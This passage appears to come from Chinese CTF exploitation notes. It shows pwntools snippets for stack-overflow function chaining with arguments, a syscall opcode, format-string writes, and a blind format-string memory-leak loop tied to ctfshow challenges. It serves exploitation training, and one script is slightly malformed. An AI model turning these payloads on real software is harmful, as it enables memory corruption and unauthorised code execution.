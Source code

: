 ##### 多函数跳转：

利用溢出进行多个函数跳转和参数赋值：

```python
#32位
elf = ELF('./pwn')
flag_func1 = elf.sym['flag_func1']
flag_func2 = elf.sym['flag_func2']
flag = elf.sym['flag']

payload = "a" * (0x2c+4)
payload += p32(flag_func1)
payload += p32(flag_func2) + p32(flag) + p32(0xACACACAC) + p32(0xBDBDBDBD)#第二个参数给了flag()

```

利用函数的性质来进行跳转

```python
#ctfshow76
input_addr = 0x811EB40
shell = 0x8049284

payload = 'aaaa' + p32(shell) + p32(input_addr)
payload = payload.encode('base64')
#decode解码，encode编码
```

##### 系统调用号

**两个字节系统调用号：**

 payload = b'\x0f\x05' #就是syscall的汇编 

 \#\x90 是nop 



#### 格式化字符串

##### 工具：

- payload = fmtstr_payload(偏移量, {改写地址: 写入的值}) 

- 字符串任意读脚本：

	```python
	#盲打
	#ctfshow99
	def leak(payload): 
	    io.remote()
		io.recv()  
		io.sendline(payload)   
		data = io.recvuntil('\n', drop=True)   
		if data.startswith('0x'):     
			print p64(int(data, 16))   
		io.close() 
	i =1
	while 1:   
		payload = '%{}$p'.format(i)   
		leak(payload)   
		i += 1
	```
